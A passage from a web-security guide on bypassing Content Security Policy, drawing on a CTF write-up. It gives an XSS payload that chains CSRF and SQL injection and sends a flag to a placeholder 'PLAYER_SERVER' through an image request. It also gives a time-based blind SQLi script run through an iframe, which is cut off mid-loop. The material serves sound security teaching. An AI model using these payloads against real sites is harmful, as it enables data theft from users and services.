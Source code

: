 `'unsafe-inline'` means that you can execute any script inside the code \(XSS can execute code\) and `img-src *` means that you can use in the webpage any image from any resource.

You can bypass this CSP exfiltrating the data via images \(in this occasion the XSS abuses a CSRF where a page accessible by the bot contains a SQLi, and extract the flag via an image\):

```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows to load images from twitter. You could **craft** an **special image**, **upload** it to twitter and abuse the "**unsafe-inline**" to **execute**a JS code \(as a regular XSS\) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### img-src \*; via XSS \(iframe\) - Time attack

Notice the lack of the directive `'unsafe-inline'`  
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information \(**CSRF**\). You cannot access the content of the page, but if somehow you can **control the time the page needs to load** you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```javascript
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
    x = escape(x.replace(/_/g, '\\_'));
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
    x = escape(x);
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
    let h = performance.now();
    f.location = (end ? gen2(word) : gen(word));
    await new Promise(r => {
        g.onload = r; 
    });
    let diff = performance.now() - h;
    return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
    let prefix = 'nn9ed{';
    while (true) {
        let i = 0;
        for (i;i<alphabet.length;i++) {
```